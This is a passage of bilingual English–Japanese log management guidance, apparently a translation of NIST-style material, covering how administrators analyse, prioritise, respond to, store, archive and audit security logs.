•不明瞭なメッセージ。ログエントリには、ソフトウェアベンダーには意味が分かるが、エントリを確認する管理者には理解できない暗号めいたメッセージやコードが含まれる場合がある（might）。このようなエントリの意味を判断するには、ソフトウェアベンダーとの相談が必要となる場合がある（might）。SIEMソフトウェアを使用したログ分析では、SIEMソフトウェアがソフトウェアベンダーのロギング方式について詳しい知識を持つことが多いため、通常、不明瞭なメッセージ数が減る。ただし、SIEMソフトウェアでもすべてのメッセージを理解できるわけではない。たとえば、製品のリリース直後の更新に関連する新しい種類のメッセージは理解できない場合がある。
In some cases, it might not be possible to gain a full understanding of a log entry. For example, a log source might not be capable of recording the supporting data necessary to provide adequate context for an entry. Also, a software vendor might be unable to provide sufficiently detailed information on the meaning of a particular message. Although it is certainly preferable for administrators to understand all log entries, in many cases it is simply not feasible. Also, there may be so many different types of log entries that it is not possible to understand them all fully with the limited resources available.
場合によっては、ログエントリを完全に理解することができない（might）。たとえば、ログソースが、エントリに十分な背景情報を与えるために必要な補足データを記録できない場合がある（might）。また、ソフトウェアベンダーが特定のメッセージの意味について十分に詳細な情報を提供できない場合もある（might）。管理者がすべてのログエントリを理解するのが確かに望ましいが、多くの場合、それは実現可能ではない。利用可能な限られたリソースでは、非常に多くの種類のログエントリをすべて完全に理解できない場合もある（may）。
The most effective way to gain a solid understanding of log data is to review and analyze portions of it regularly (e.g., every day). The goal is to eventually gain an understanding of the baseline of typical log entries, likely encompassing the vast majority of log entries on the system. (Because a few types of entries often comprise a significant percentage of the log entries, this is not as difficult as it may first sound.) Daily log reviews should include those entries that have been deemed most likely to be important, as well as some of the entries that are not yet fully understood. Because it can take considerable effort to understand the significance of most log entries, the initial days, weeks, or even months of performing the log analysis process are the most challenging and time-consuming. Over time, as the baseline of normal activity is broadened and deepened, the daily log reviews should take less time and be more focused on the most important log entries, thus leading to more valuable analysis results.
ログデータを十分に理解する最も効果的な方法は、その一部を定期的（毎日など）に確認・分析することである。最終的な目標は、システム上のログエントリの大部分を占めると考えられる、典型的なログエントリのベースラインを理解することである。（数種類のエントリがログエントリのかなりの割合を占めることが多いため、最初は難しく思えるかもしれないほどには難しくない。）日々のログ確認には、重要である可能性が最も高いと判断されたエントリに加え、まだ完全に理解されていないエントリもいくつか含めるべきである。ほとんどのログエントリの重要性を理解するには相当の労力が必要となる場合があるため、ログ分析プロセスを実施し始めた最初の数日、数週間、または数か月が最も困難で時間を要する。通常の活動のベースラインが時間とともに広く深くなるにつれて、日々のログ確認にかかる時間は短くなり、最重要エントリにより重点が置かれるべきである。その結果、より価値の高い分析結果が得られる。
Another motivation for understanding the log entries is so that the analysis process can be automated as much as possible. By determining which types of log entries are of interest and which are not, administrators can configure automated filtering of the log entries.59 This allows events known to be malicious to be recognized and responded to automatically (e.g., alerting administrators, reconfiguring other security controls). Another purpose for filtering is to ensure that the manual analysis performed by administrators is prioritized appropriately. The filtering should be configured so that it presents administrators with a reasonable number of entries for manual analysis. One effective technique is to have two reports: one for the entries thought to be most important, and another for entries that are not yet fully understood. Both reports should be reviewed regularly, but the first report should be treated as a higher priority than the second report. If the review of the second report is not performed frequently, the logging baseline might not be expanded and refined sufficiently.
ログエントリを理解するもう一つの動機は、分析プロセスを可能な限り自動化できる（can）ようにすることである。関心のあるログエントリ種別とそうでないものを判断することで、管理者はログエントリの自動フィルタリングを構成できる（can）。59 これにより、悪意があると判明しているイベントを自動認識して対応できる。たとえば、管理者への警告、他のセキュリティ管理策の再構成などである。フィルタリングの別の目的は、管理者が行う手動分析に適切な優先順位を付けることである。フィルタリングは、手動分析のために妥当な数のエントリが管理者に提示されるよう構成すべきである（should）。効果的な手法の一つは、2つのレポートを用意することである。1つは最重要と思われるエントリ用、もう1つはまだ完全に理解されていないエントリ用である。両方のレポートを定期的に確認すべきである（should）が、第1レポートは第2レポートより優先度を高く扱うべきである（should）。第2レポートの確認が頻繁に行われない場合、ロギングのベースラインが十分に拡張・改善されない場合がある（might）。
5.2.2 Prioritizing Log Entries
5.2.2 ログエントリの優先順位付け
Prioritizing the analysis of log entries can be challenging. Although some log sources assign their own priorities to each entry, these priorities often use inconsistent scales or ratings (e.g., high/medium/low, 1 to 5, 1 to 10), which makes it challenging to compare priority values. Also, the criteria used by different products to prioritize entries are likely to be based on different sets of requirements, some or all of which might be inconsistent with the organization’s requirements. Accordingly, organizations should consider assigning their own priorities to log entries based on a combination of factors, including the following:
ログエントリ分析の優先順位付けは難しい場合がある（can）。ログソースの中には各エントリに独自の優先度を割り当てるものもあるが、その優先度は一貫しない尺度や評価（高／中／低、1～5、1～10など）を使用することが多く、優先度の値を比較するのが難しい。また、各製品がエントリの優先順位付けに使用する基準は、異なる要件に基づいている可能性が高く、その一部またはすべてが組織の要件と一致しない場合がある（might）。したがって、組織は以下を含む複数要因の組み合わせに基づいて、ログエントリに独自の優先度を割り当てることを検討すべきである（should）。
•Entry type (e.g., message code 103, message class CRITICAL)
•エントリ種別（メッセージコード103、メッセージクラスCRITICALなど）
•Newness of the entry type (i.e., has this type of entry appeared in the logs before?)
•エントリ種別の新しさ（この種別のエントリが以前にログに現れたことがあるか）
•Log source
•ログソース
•Source or destination IP address (e.g., source address on a blacklist, destination address of a critical system, previous events involving a particular IP address)
•送信元または宛先IPアドレス（ブラックリスト上の送信元アドレス、重要システムの宛先アドレス、特定IPアドレスに関連する過去のイベントなど）
•Time of day or day of the week (e.g., an entry might be acceptable during certain times but not permitted during others)
•時刻または曜日（特定の時間帯なら許容される場合がある（might）が、それ以外では許可されないエントリなど）
•Frequency of the entry (e.g., x times in y seconds).
•エントリの頻度（y秒間にx回など）。
Prioritization might also include the use of correlation to provide context for log entries so that they can be validated. For example, suppose that host-based intrusion detection software monitors an apparent file modification attack on a system. If the host’s OS log contains an auditing entry that indicates the file was modified successfully, and the data from the two log entries is correlated together, it would provide a stronger assurance of a successful attack than either log source would alone, and it would also likely contain more data on the attack than either individual source would have recorded. Another example of using correlation as a factor for prioritization is using information on known vulnerabilities in the organization’s installed operating systems and applications to assign a higher priority to log entries that are related to these vulnerabilities.
優先順位付けでは、ログエントリの背景情報を提供し、エントリを検証できるよう相関を使用する場合もある。たとえば、ホストベース侵入検知ソフトウェアが、システムに対するファイル変更攻撃と思われるものを監視しているとする。ホストのOSログに、ファイルが正常に変更されたことを示す監査エントリが含まれており、2つのログエントリのデータが相関されると、いずれか一方のログソースだけの場合よりも攻撃成功の確度が高まる。また、どちらか一方のソースだけが記録した場合よりも、攻撃に関するより多くのデータが含まれる可能性が高い。優先順位付けの要因として相関を用いる別の例は、組織に導入されているOSやアプリケーションの既知の脆弱性情報を用い、それらの脆弱性に関連するログエントリに高い優先度を割り当てることである。
5.2.3 Comparing System-Level and Infrastructure-Level Analysis
5.2.3 システムレベル分析とインフラストラクチャレベル分析の比較
Analysis is typically very similar for system-level and infrastructure administrators. The main difference is that for infrastructure administrators, log analysis is often a primary responsibility, whereas for system-level administrators it is often a secondary responsibility, particularly if the infrastructure administrators are reviewing the most important log entries from systems. In such an arrangement, infrastructure administrators typically perform log analysis on an ongoing basis each day, and system-level administrators perform periodic reviews (e.g., daily, weekly) commensurate with the criticality of each system and its information. Also, infrastructure administrators might have access to more sophisticated tools than system-level administrators do because it is cost-prohibitive to have them available for all systems.
分析内容は通常、システムレベル管理者とインフラストラクチャ管理者で非常によく似ている。主な違いは、インフラストラクチャ管理者にとってログ分析が主要な責任であることが多いのに対し、システムレベル管理者にとっては、多くの場合、副次的な責任である点である。特に、インフラストラクチャ管理者がシステムから最重要ログエントリを確認している場合にそうである。このような体制では、インフラストラクチャ管理者は通常、毎日継続的にログ分析を実施し、システムレベル管理者は各システムおよびその情報の重要性に応じて、定期的（毎日、毎週など）に確認を行う。また、インフラストラクチャ管理者は、すべてのシステムで利用できるようにすると費用が高すぎるため、システムレベル管理者より高度なツールを利用できる場合がある（might）。
Regardless of how much analysis is performed at the infrastructure level, system-level administrators usually need to perform analysis for the following types of entries:
インフラストラクチャレベルでどの程度分析が行われるかにかかわらず、システムレベル管理者は通常、次の種類のエントリを分析する必要がある。
•Entries that are of interest or importance at the system level but are not forwarded to the infrastructure because of their relative priority
•相対的な優先度のためインフラストラクチャに転送されないが、システムレベルで関心または重要性があるエントリ
•Entries for log sources that cannot automatically participate in the infrastructure (e.g., unusual proprietary formats, standalone systems, legacy systems, appliances)
•自動的にインフラストラクチャに参加できないログソースのエントリ（特殊な独自形式、スタンドアロンシステム、レガシーシステム、アプライアンスなど）
•Entries that cannot be understood without context that is only available at the system level.
•システムレベルでのみ利用可能な背景情報がなければ理解できないエントリ。
System-level administrators can usually perform their reviews and analysis using a variety of tools and techniques. On some systems, particularly those with many log sources, it is effective to establish a local log infrastructure and store the data from all of the system’s log sources there. On other systems, especially for proprietary log formats, administrators might perform separate analysis of each log source using format-specific log viewers, reduction tools, and other utilities. Another possibility is to export log data to a database and perform queries on the database. Database queries can be an excellent way to filter log data for analysis purposes.60 If most of the analysis process can be automated, it might be feasible to create an analysis report each day and present it to the administrator for review. The administrator can perform further investigation as needed of significant events identified by the report.
システムレベル管理者は通常、さまざまなツールや技法を用いて確認・分析を実施できる。特にログソースが多いシステムでは、ローカルログインフラストラクチャを確立し、当該システムのすべてのログソースからのデータをそこに保存するのが効果的である。他のシステム、特に独自形式ログでは、管理者が形式固有のログビューアー、削減ツール、その他のユーティリティを用いて、各ログソースを個別に分析する場合がある。ログデータをデータベースにエクスポートして、データベースに対するクエリを実行する方法もある。データベースクエリは、分析目的でログデータをフィルタリングする優れた方法となる。60 分析プロセスのほとんどを自動化できる場合、毎日分析レポートを作成し、確認のために管理者へ提示することが実現可能となる場合がある。管理者は、レポートで識別された重要イベントを必要に応じてさらに調査できる。
未レビュー訳To perform effective reviews and analysis, system-level and infrastructure administrators should have solid understanding of each of the following from training or hands-on experience:
効果的な確認・分析を実施するには、システムレベル管理者およびインフラストラクチャ管理者は、研修または実地経験を通じて、以下の各事項を十分に理解すべきである（should）。
•The organization’s policies regarding acceptable use, so that administrators can recognize violations of the policies
•許容される使用に関する組織のポリシー。これにより、管理者はポリシー違反を認識できる（can）。
•The security software used by their hosts, including the types of security-related events that each program can detect and the general detection profile of each program (e.g., known false positives)
•ホストが使用するセキュリティソフトウェア。各プログラムが検知できるセキュリティ関連イベントの種類と、各プログラムの一般的な検知プロファイル（既知の誤検知など）を含む（can）。
•The operating systems and major applications (e.g., e-mail, Web) used by their hosts, particularly each OS’s and major application’s security and logging capabilities and characteristics
•ホストが使用するオペレーティングシステムおよび主要アプリケーション（電子メール、Webなど）、特に各OSおよび主要アプリケーションのセキュリティ機能とロギング機能・特性
•The characteristics of common attack techniques, especially how the use of these techniques might be recorded on each system
•一般的な攻撃手法の特徴、特に各システムでこれらの手法の使用がどのように記録される場合があるか（might）
•The software needed to perform analysis, such as log viewers, log reduction scripts, and database query tools.
•ログビューアー、ログ削減スクリプト、データベースクエリツールなど、分析の実施に必要なソフトウェア。
Organizations often require system-level administrators to report the results of their analysis to infrastructure administrators. This helps to ensure that the system-level administrators are performing log analysis on a regular basis. The information in the reports is also of value to the infrastructure administrators because they can review it and identify patterns of activity that cannot be seen at the individual system level. For example, infrastructure administrators could see that the same attack was attempted on several systems. Infrastructure administrators can also disseminate information learned from analysis reports to the system-level administrators so that they can more easily recognize similar activity on their own systems. Infrastructure administrators should also create reports that summarize the results of their own analysis activity, and possibly also summarize the reports from system-level administrators. Regularly sharing the highlights of reports with management, particularly the problems that were identified and corrected as a result of analysis efforts, demonstrates the benefits of log management to the organization’s management.
組織は多くの場合、システムレベル管理者に分析結果をインフラストラクチャ管理者へ報告するよう求める。これにより、システムレベル管理者が定期的にログ分析を実施していることを確認できる。報告書の情報はインフラストラクチャ管理者にも有用である。内容を確認し、個々のシステムレベルでは見えない活動パターンを特定できる（can）ためである。たとえば、同じ攻撃が複数のシステムで試みられたことが分かる場合がある（could）。インフラストラクチャ管理者は、分析報告書から得た情報をシステムレベル管理者にも周知できる（can）。これにより、各管理者は自分のシステムで同様の活動をより容易に認識できる（can）。インフラストラクチャ管理者は、自身の分析活動結果を要約した報告書を作成し、場合によってはシステムレベル管理者の報告書も要約すべきである（should）。報告書の要点、特に分析活動によって特定・是正された問題を経営陣と定期的に共有することで、組織の経営陣にログ管理の利点を示せる。
5.3 Respond to Identified Events
5.3 識別されたイベントへの対応
During their log analysis, infrastructure and system-level administrators may identify events of significance, such as incidents and operational problems, that necessitate some type of response. When an administrator identifies a likely computer security incident, as defined by the organization’s incident response policies, the administrator should follow the organization’s incident response procedures to ensure that it is addressed appropriately. Examples of computer security incidents include a host being infected by malware and a person gaining unauthorized access to a host. Administrators should perform their own responses to non-incident events, such as minor operational problems (e.g., misconfiguration of host security software). Some organizations require system-level administrators to report incidents and logging-related operational problems to infrastructure administrators so that the infrastructure administrators can better identify additional instances of the same activities and patterns that cannot be seen at the individual system level.
ログ分析中に、インフラストラクチャ管理者およびシステムレベル管理者は、インシデントや運用上の問題など、何らかの対応を必要とする重要イベントを識別する場合がある（may）。管理者が組織のインシデント対応ポリシーで定義されたコンピュータセキュリティインシデントの可能性が高いと識別した場合、適切に対処されるよう組織のインシデント対応手順に従うべきである（should）。コンピュータセキュリティインシデントの例には、ホストがマルウェアに感染することや、人がホストへの不正アクセスを得ることが含まれる。管理者は、ホストセキュリティソフトウェアの誤構成など、インシデントではない軽微な運用上の問題には、自ら対応すべきである（should）。一部の組織は、システムレベル管理者にインシデントやロギング関連の運用上の問題をインフラストラクチャ管理者へ報告させる。これによりインフラストラクチャ管理者は、個々のシステムレベルでは見えない同一活動の追加事例やパターンをより適切に特定できる（can）。
Infrastructure and system-level administrators should also be prepared to assist incident response teams with their efforts. For example, when an incident occurs, affected system-level administrators may be asked to review their systems’ logs for particular signs of malicious activity or to provide copies of their logs to incident handlers for further analysis. Administrators should also be prepared to alter their logging configurations as part of a response. Adverse events such as worms often cause unusually large numbers of events to be logged. This can cause various negative impacts, such as slowing system performance, overwhelming logging processes, and overwriting recent log entries. Analysts may not be able to see other events of significance because their records are hidden among all of the other log entries. Accordingly, administrators may need to reconfigure logging for the short term, long term, or permanently, depending on the source of the log data, to prevent it from overwhelming the system and the logs. Administrators may also need to adjust logging to capture more data as part of a response effort, such as collecting additional information on a particular type of activity. To identify similar incidents, especially in the short term, administrators may need to perform additional log monitoring and analysis, such as more closely examining the types of logging sources that recorded pertinent information on the initial incident.
インフラストラクチャ管理者およびシステムレベル管理者は、インシデント対応チームの取り組みを支援できるよう準備しておくべきである（should）。たとえばインシデント発生時、影響を受けたシステムの管理者は、特定の悪意ある活動の兆候を探して自システムのログを確認するよう、またはさらなる分析のためインシデント対応担当者にログのコピーを提供するよう求められる場合がある（may）。管理者は対応の一環としてロギング構成を変更する準備もしておくべきである（should）。ワームなどの有害事象は、通常よりはるかに多くのイベントをログに記録させることが多い。これにより、システム性能の低下、ロギングプロセスへの過負荷、直近のログエントリの上書きなど、さまざまな悪影響が発生する可能性がある（can）。記録が他のすべてのログエントリに埋もれるため、分析者が他の重要イベントを確認できない場合がある（may）。したがって、ログデータのソースに応じて、システムおよびログへの過負荷を防ぐため、管理者はロギングを短期的、長期的、または恒久的に再構成する必要がある場合がある（may）。対応の一環として、特定種類の活動に関する追加情報を収集するなど、より多くのデータを取得できるようロギングを調整する必要がある場合もある（may）。類似インシデントを識別するため、特に短期的には、管理者は追加のログ監視および分析を実施する必要がある場合がある（may）。たとえば、最初のインシデントに関する情報を記録したログソースの種類を、より詳しく調べる。
5.4 Manage Long-Term Log Data Storage
5.4 長期ログデータ保存の管理
Administrators typically are responsible for managing the storage of their logs. They should be aware of the organization’s requirements and guidelines for log data storage, so that logs are retained for the required period of time. If log data has already been transferred to the log management infrastructure, system-level administrators might not need to do any long-term storage of log data. If administrators need to store the log data for a retention period, and this period is relatively short (days or weeks), it might be adequate to keep them online and capture them in regular system backups. If the retention period is relatively long (months or years), administrators typically need to do the following:
管理者は通常、自らのログの保存を管理する責任を負う。ログが所定期間保持されるよう、ログデータ保存に関する組織の要件とガイドラインを把握しておくべきである（should）。ログデータがすでにログ管理インフラストラクチャに転送されている場合、システムレベル管理者は長期保存を行う必要がない場合がある（might）。保持期間中ログデータを保存する必要があり、その期間が比較的短い（数日または数週間）場合、オンライン状態で保管し、通常のシステムバックアップに含めれば十分な場合がある（might）。保持期間が比較的長い（数か月または数年）場合、管理者は通常次のことを行う必要がある。
•Choose a log format for the data to be archived. If the logs are in a proprietary format, administrators should determine whether the logs should be archived in that format, in a standard format, or both. It might be difficult to read a proprietary format log years later (e.g., the software that generated it is no longer available or no longer supports the format). However, proprietary format logs might contain additional and more detailed information not present in standard format logs, so it might be valuable to archive such logs in both proprietary and standard formats, if sufficient archival storage space is available.
•アーカイブするデータのログ形式を選択する。ログが独自形式の場合、管理者は、その形式、標準形式、または両方の形式のいずれでログをアーカイブすべきか（should）判断すべきである（should）。数年後に独自形式のログを読むのが難しい場合がある（might）。たとえば、ログを生成したソフトウェアが入手できない、またはその形式をサポートしなくなる場合である。しかし、独自形式ログには標準形式ログにはない追加情報や詳細情報が含まれる場合があり（might）、十分なアーカイブ保存領域があるなら、そのようなログを独自形式と標準形式の両方でアーカイブすると価値がある場合がある（might）。
•Archive the log data. Possible media format choices include backup tapes, CDs, DVDs, storage area networks (SAN), and specialized log archival appliances or servers. When selecting a media format, administrators should be mindful of the retention period for the data. If a particular type of media is only intended to last for five years, and the log data needs to be retained for longer than that, either another type of media should be chosen or plans should be made to transfer the data from one media to another within the next five years. Administrators should also consider whether the hardware and software needed to access the media are likely to still be available at the end of the retention period. Administrators should periodically review the formats of archived media to determine if any are at risk of becoming inaccessible, then transfer any such data from one media to another.
•ログデータをアーカイブする。媒体形式の選択肢には、バックアップテープ、CD、DVD、ストレージエリアネットワーク（SAN）、専用ログアーカイブ機器またはサーバーがある。媒体形式を選択する際、管理者はデータの保持期間を考慮すべきである（should）。特定の媒体の想定寿命が5年しかなく、ログデータをそれより長く保持する必要がある場合、別の媒体を選択するか、今後5年以内にデータを別媒体へ移す計画を立てるべきである（should）（should）。保持期間終了時に媒体へアクセスするためのハードウェアおよびソフトウェアが引き続き利用可能かどうかも、管理者は検討すべきである（should）。アーカイブ済み媒体の形式を定期的に確認し、アクセス不能になるリスクがあるか判断したうえで、該当データを別媒体に移すべきである（should）。
•Verify the integrity of the transferred logs. As described in Section 3.1, this is typically done through the creation of message digests for each log file. If a log file is changed and its message digest recalculated, the new message digest will not match the old message digest. Administrators should compare the message digest for each original log with the message digest for each copy of the log file to ensure that the file has not been changed during transfer.
•転送済みログの完全性を検証する。3.1節で説明したように、通常は各ログファイルのメッセージダイジェストを作成して行う。ログファイルを変更してメッセージダイジェストを再計算すると、新しいダイジェストは古いダイジェストと一致しない（will）。ファイルが転送中に変更されていないことを確保するため、管理者は各元ログのメッセージダイジェストと各ログファイルコピーのメッセージダイジェストを比較すべきである（should）。
•Store the media securely. Administrators are responsible for ensuring that the media receives adequate physical protection. The first component of this is preventing unauthorized physical access, which typically involves keeping the media in a secure area and monitoring access to the secure area. The second component of physical protection is ensuring that the proper environmental controls are in place, such as humidity and temperature controls, and protection from water, magnetism, and other things that might damage media. Also, archival media is often stored at an offsite facility.
•媒体を安全に保管する。媒体が適切な物理的保護を受けるようにすることは管理者の責任である。第一の要素は不正な物理アクセスを防ぐことであり、通常、媒体を安全な区域に保管し、その区域へのアクセスを監視する。第二の要素は、湿度や温度の管理、水、磁気、その他媒体を損傷する可能性がある（might）ものからの保護など、適切な環境管理が行われるようにすることである。また、アーカイブ媒体は遠隔地の施設に保管されることが多い。
Administrators are also responsible for ensuring that the archived logs are destroyed properly when the required data retention period has ended. This includes logs stored on systems, regular backups, and archival media. Administrators should follow their organization’s media sanitization policies and procedures when destroying the logs. Examples of how logs might be destroyed include logical destruction (e.g., repeatedly overwriting data with random values) and physical destruction (e.g., shredding media, degaussing hard drives).61
管理者は、必要なデータ保持期間が終了したときに、アーカイブ済みログが適切に破棄されるようにする責任も負う。これには、システム、通常のバックアップ、アーカイブ媒体に保存されたログが含まれる。ログを破棄する際、管理者は組織の媒体サニタイズポリシーおよび手順に従うべきである（should）。ログ破棄の方法の例として、論理的破壊（ランダム値でデータを繰り返し上書きするなど）および物理的破壊（媒体の細断、ハードドライブの消磁など）がある（might）。61
5.5 Provide Other Operational Support
5.5 その他の運用支援の提供
In addition to the operational processes described earlier in this section, infrastructure and system-level administrators need to provide additional types of support for logging operations. They should perform the following actions regularly:
本節の前半で説明した運用プロセスに加えて、インフラストラクチャ管理者およびシステムレベル管理者は、ロギング運用に関する追加の支援を提供する必要がある。定期的に以下の措置を実施すべきである（should）。
•Monitor the logging status of all log sources to ensure that each source is enabled, configured properly, and functioning as expected.
•すべてのログソースのロギング状態を監視し、各ソースが有効で、適切に構成され、想定どおりに機能していることを確保する。
•Monitor log rotation and archival processes to ensure that logs are archived and cleared correctly and that old logs are destroyed once they are no longer needed. Log rotation monitoring should also include regular checks through automated or manual means of the remaining space available for logs.62
•ログローテーションおよびアーカイブプロセスを監視し、ログが正しくアーカイブ・消去され、不要になった古いログが破棄されるようにする。ログローテーションの監視には、自動または手動で、ログに残っている空き容量を定期的に確認することも含めるべきである（should）。62
•Check for upgrades and patches for logging software; acquire, test, and deploy the updates.
•ロギングソフトウェアのアップグレードおよびパッチを確認し、更新を取得、試験、展開する。
•Ensure that each system’s clock is synched to a common time source so that its timestamps will match those generated by other systems.
•各システムの時計を共通の時刻ソースに同期させ、タイムスタンプが他のシステムで生成されたものと一致するようにする（will）。
•Reconfigure logging as needed based on factors such as policy changes, audit findings, technology changes, and new security needs.
•ポリシー変更、監査結果、技術変更、新たなセキュリティニーズなどの要因に基づき、必要に応じてロギングを再構成する。
•Document anomalies detected in log settings, configurations, and processes. Such anomalies might indicate malicious activity, deviations from policy and procedures, and flaws in logging mechanisms. System-level administrators should report anomalies to infrastructure administrators.
•ログ設定、構成、プロセスで検知された異常を文書化する。このような異常は、悪意ある活動、ポリシーや手順からの逸脱、ロギングメカニズムの欠陥を示す場合がある（might）。システムレベル管理者は異常をインフラストラクチャ管理者に報告すべきである（should）。
5.6 Perform Testing and Validation
5.6 試験および検証の実施
Organizations should perform testing and validation activities periodically to confirm that the organization’s logging policies, processes, and procedures are being followed properly both at the infrastructure level and the system level throughout the organization. Log management audits can identify deficiencies in policies, procedures, technology, and training that can then be addressed. Audits can also be helpful in identifying effective practices, such as particular configuration or filtering settings, that may be beneficial for use on other systems.
組織は、ロギングポリシー、プロセス、手順が組織全体のインフラストラクチャレベルとシステムレベルの両方で適切に遵守されていることを確認するため、試験および検証を定期的に実施すべきである（should）。ログ管理監査によって、ポリシー、手順、技術、研修の不備を特定できる（can）。特定された不備には対処できる（can）。監査は、他のシステムでも役立つ可能性がある（may）特定の構成やフィルタリング設定など、効果的な実践を特定するうえでも有用である（can）。
The most common techniques for testing and validating logging are as follows:
ロギングの試験および検証で最も一般的な技法は次のとおりである。
•Passive. Auditors or others performing testing and validation can review the logging configuration and settings, as well as the system logs, infrastructure logs, and archived logs, for a representative sampling of systems and infrastructure servers to ensure that they comply with policies and procedures.
•受動的手法。監査人または試験・検証を実施する他の人々は、代表的なサンプルのシステムおよびインフラストラクチャサーバーについて、ロギング構成と設定、システムログ、インフラストラクチャログ、アーカイブ済みログを確認し、ポリシーおよび手順に準拠していることを確保できる（can）。
•Active. Auditors (or security administrators under the direction of auditors) or others performing testing and validation can create security events on a representative sampling of systems through vulnerability scanning, penetration testing, or routine actions (e.g., logging onto a system remotely), and then ensure that the log data those activities should generate exists and is handled according to the organization’s policies and procedures.
•能動的手法。監査人（または監査人の指示を受けたセキュリティ管理者）など、試験・検証を実施する人々は、脆弱性スキャン、侵入テスト、または定期的な操作（システムへのリモートログインなど）によって代表的なサンプルのシステム上にセキュリティイベントを発生させ、その後、それらの活動が生成すべきログデータが存在し、組織のポリシーと手順に従って処理されていることを確認できる。
Most testing and validation efforts use primarily passive methods. Active methods are often more effective than passive methods because active methods perform actual testing of the logging processes, but active methods are also more resource-intensive. Also, some active methods such as penetration testing could inadvertently disrupt system functionality or create the appearance that a serious computer security incident has occurred, so they should only be used with proper approval from management and with coordination with operational and security staff. In some cases, active methods are used not only to test and validate logging, but also to audit other functions. For example, by using active methods without notifying the log management staff and others involved in daily operations, an auditor could evaluate how effectively the organization performs incident handling in response to suspicious activity (the auditors’ active methods) recorded in logs.
ほとんどの試験・検証では、主に受動的手法が用いられる。能動的手法はロギングプロセスを実際に試験するため、受動的手法より効果的なことが多いが、より多くのリソースを必要とする。また、侵入テストなど一部の能動的手法は、システム機能を誤って妨げたり、重大なコンピュータセキュリティインシデントが起きたように見せたりする可能性がある（could）。そのため、経営陣の適切な承認を得て、運用担当者およびセキュリティ担当者と調整した場合に限り使用すべきである（should）。場合によっては、能動的手法はロギングの試験・検証だけでなく、他の機能の監査にも使われる。たとえば、日常運用に関わるログ管理担当者やその他の人々に知らせず能動的手法を使用すると、監査人は、ログに記録された不審な活動（監査人の能動的手法）への対応において、組織がどれほど効果的にインシデント対応を実施するか評価できる（could）。
Organizations should conduct periodic audits of the security of the log management infrastructure itself and a representative sampling of the log generators. This should be performed as a risk assessment, taking into account the threats that the hosts at each tier of the log management infrastructure face and the security controls in place to stop those threats. Specific security objectives include the following:
組織は、ログ管理インフラストラクチャ自体のセキュリティと、代表的なサンプルのログ生成元について定期監査を実施すべきである（should）。これはリスク評価として実施し、ログ管理インフラストラクチャの各層のホストが直面する脅威と、それらの脅威を阻止するために導入されているセキュリティ管理策を考慮すべきである（should）。具体的なセキュリティ目標には次が含まれる。
•The infrastructure log servers are fully hardened and can perform functions in support of log management only
•インフラストラクチャのログサーバーは完全に堅牢化され、ログ管理を支援する機能のみを実行できる（can）
•The systems generating logs are secured appropriately (e.g., fully patched, unneeded services disabled)
•ログを生成するシステムが適切に保護されている（完全にパッチ適用済みで、不要なサービスが無効化されているなど）
•Access to both system-level and infrastructure logs and logging software (both on the hosts and on media) is strictly limited, and the integrity of the logs and software is protected and verified
•システムレベルおよびインフラストラクチャログとロギングソフトウェア（ホスト上と媒体上の両方）へのアクセスが厳格に制限され、ログとソフトウェアの完全性が保護・検証されている
•All network communications involving log data are protected appropriately as needed.
•ログデータを含むすべてのネットワーク通信が、必要に応じて適切に保護されている。
Organizations should also review the design of the log management infrastructure periodically, and implement changes as needed. Possible reasons for altering the design include taking advantage of improvements and enhancements to log management software, handling larger volumes of log data, and addressing a need for stronger security controls. Periodic reviews of log management processes and procedures should also be conducted so that log management continues to be effective at detecting the latest threats in changing environments.
組織はログ管理インフラストラクチャの設計も定期的に見直し、必要に応じて変更を実装すべきである（should）。設計変更の理由としては、ログ管理ソフトウェアの改善や拡張の活用、より大量のログデータへの対応、より強力なセキュリティ管理策の必要性への対処などが考えられる。ログ管理プロセスおよび手順も定期的に見直すべきである（should）。これにより、変化する環境における最新の脅威を検知するログ管理の有効性を維持できる。
5.7 Summary
5.7 まとめ
System-level and infrastructure administrators should follow standard processes for managing the logs for which they are responsible. The major operational processes for log management are configuring log sources, performing log analysis, initiating responses to identified events, and managing long-term data storage.
システムレベル管理者およびインフラストラクチャ管理者は、自らが責任を負うログを管理するため、標準プロセスに従うべきである（should）。ログ管理の主要な運用プロセスは、ログソースの構成、ログ分析の実施、識別されたイベントへの対応の開始、長期データ保存の管理である。
System-level administrators need to configure log sources so that they capture the needed information in the desired format and locations, as well as retain the information for the appropriate period of time. When planning logging configurations, system-level administrators should consider the effect of the configuration not only on the logging host, but also on other log management infrastructure components. System-level administrators also need to configure log sources to perform log rotation, preferably both at a regular time and when a maximum log size is reached. System-level administrators also need to configure systems to act appropriately when a log that cannot be rotated automatically becomes full.
システムレベル管理者は、必要な情報を所望の形式および場所で取得し、適切な期間保持できるよう、ログソースを構成する必要がある。ロギング構成を計画する際、システムレベル管理者はその構成がロギングホストだけでなく、他のログ管理インフラストラクチャ構成要素にも及ぼす影響を考慮すべきである（should）。また、ログローテーションを定期時刻と最大ログサイズ到達時の両方で実施するよう、ログソースを構成する必要がある。さらに、自動ローテーションできないログが満杯になった場合にシステムが適切に動作するよう構成する必要がある。
System-level and infrastructure administrators have other responsibilities as well, such as ensuring that old logs are destroyed when no longer needed, in compliance with the organization’s logging, data retention, and media sanitization policies. They also need to protect the confidentiality, integrity, and availability of logs on systems, in storage, and in transit. Another duty is to provide ongoing support for systems’ logging operations, such as monitoring logging status, monitoring log rotation and archival processes, and acquiring, testing, and deploying updates to logging software.
システムレベル管理者およびインフラストラクチャ管理者には、組織のロギング、データ保持、媒体サニタイズのポリシーに従い、不要になった古いログを破棄することなど、他の責任もある。また、システム上、保存中、転送中のログの機密性、完全性、可用性を保護する必要がある。さらに、ロギング状態の監視、ログローテーションおよびアーカイブプロセスの監視、ロギングソフトウェアの更新の取得、試験、展開など、システムのロギング運用に継続的な支援を提供する責任もある。
Organizations need to decide how to divide log analysis duties between the system level and the infrastructure level, and then provide adequate support to the administrators so that log management is performed effectively throughout the organization. When determining how to divide analysis responsibilities, organizations should focus on the relative importance of different types of entries and the context necessary to understand each log entry’s true meaning. The key to performing analysis is understanding the typical activity associated with each system. The most effective way to gain this understanding is to review and analyze portions of the log data every day. Daily log entries should include those entries that have been deemed most likely to be important, as well as some of the entries that are not yet fully understood. Understanding typical log entries is also helpful in configuring automated filtering of log entries. To assist in focusing attention on the most important log entries, organizations should consider assigning their own priorities to each log entry based on a combination of several factors.
